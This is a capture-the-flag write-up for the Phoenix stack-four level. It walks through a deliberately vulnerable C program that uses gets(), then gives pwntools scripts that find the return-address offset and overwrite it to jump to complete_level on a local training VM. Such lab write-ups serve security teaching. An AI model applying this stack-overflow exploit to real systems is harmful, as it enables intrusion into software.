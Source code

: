 ## Stack-Four
---

![](https://cyberguru1.github.io/posts/phoenix/files/st4_header.png)

### Source Code
----

```
/*
 * phoenix/stack-four, by https://exploit.education
 *
 * The aim is to execute the function complete_level by modifying the
 * saved return address, and pointing it to the complete_level() function.
 *
 * Why were the apple and orange all alone? Because the bananna split.
 */

#include <err.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>

#define BANNER \
  "Welcome to " LEVELNAME ", brought to you by https://exploit.education"

char *gets(char *);

void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}

void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}

int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}

```
### Let's Analyze the code
---

```
char *gets(char *);
```
- The gets function is declared, although it is generally considered unsafe and should be avoided in favor of safer alternatives like fgets.

```
void complete_level() {
  printf("Congratulations, you've finished " LEVELNAME " :-) Well done!\n");
  exit(0);
}
```
- The complete_level() function is defined. It prints a congratulatory message and exits the program with a status code of 0.

```
void start_level() {
  char buffer[64];
  void *ret;

  gets(buffer);

  ret = __builtin_return_address(0);
  printf("and will be returning to %p\n", ret);
}
```
- The start_level() function is defined. It declares a character array called buffer with a size of 64 bytes. It then uses the unsafe gets function to read input from the user and store it in the buffer array. This is the vulnerable part of the code where a buffer overflow can occur.
   
   After reading input, the ret variable is assigned the value of the return address of the current function using the __builtin_return_address(0) function. The return address represents the address to which the program will jump after the current function finishes executing.

```
int main(int argc, char **argv) {
  printf("%s\n", BANNER);
  start_level();
}
```
- Finally, the main() function is defined. It displays the program's banner using the BANNER macro and calls the start_level() function to start the vulnerable part of the program

### Solution to Challenge
---

The goal of this challenge is to overwrite the saved instruction pointer `$rip`, this is a standard buffer overflow challenge, similar to the previous challenge we need to somehow call the `complete_level` function all the way from main.

Using GDB to get the address of the `complete_level` function :

![](https://cyberguru1.github.io/posts/phoenix/files/st4_f-address.png)

we got the address of the `complete_level` function to be `0x40061d`

since this is a standard buffer overflow challenge we need to find the offset at which we could overwrite the instruction, gdb-gef as a cool feature of generating a de-bruijn sequence under the method name `cyclic`

using pwntools to write a script that finds the offset at which `rip` would be overwritten:

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


# complete_level address

addr = p32(0x40061d)


s = ssh(host='localhost', user='user', password='user', port=2222)

out = s.run('gdb /opt/phoenix/amd64/stack-four')
print(out.recvuntil(b'(gdb)').decode())

out.sendline('set disassembly-flavour intel')
print(out.recvuntil(b'(gdb)').decode())

out.sendline('info func')
print(out.recvuntil(b'(gdb)').decode())

#creating a de-bruijn sequence
pattern = cyclic(200, n=8) # 8 for x64 and 4 for x86

out.sendline('r')
print(out.recvuntil(b'\n').decode())

#sending the de-bruijn sequence
out.sendline(pattern)
print(out.recvuntil(b'(gdb)').decode())

#searching for the overflow offset
out.sendline('pattern search $rip')

#storing the output
output = out.recvuntil(b'(gdb)').decode()
print(output)

#extracting the offset
offset = int(re.findall(r"offset ([0-9]+=?) \(little-endian search\)", output)[0])
print(offset)

```
in the above script, we used pwntools to automate the offset calculation, after running the script the offset printed out is `88`, using this offset we could now point our rip register to the `complete_level` function address

```
#!/usr/bin/python
## script by Hamza Saidu
## enjoy!!!

from pwn import *


# complete_level address

addr = p32(0x40061d)


s = ssh(host='localhost', user='user', password='user', port=2222)
offset = 88


payload = offset * b"A"
payload += addr
payload += b"\x00\x00\x00\x00" # padded some null bytes to make it 8 bytes long

p = s.process('/opt/phoenix/amd64/stack-four')

print(p.recvuntil(b'\n').decode())

p.sendline(payload)
print(p.recvall().decode())

```

Running the script we got:

![](https://cyberguru1.github.io/posts/phoenix/files/st4-result.png)

and waaala we got the congratz message!!!!!!!


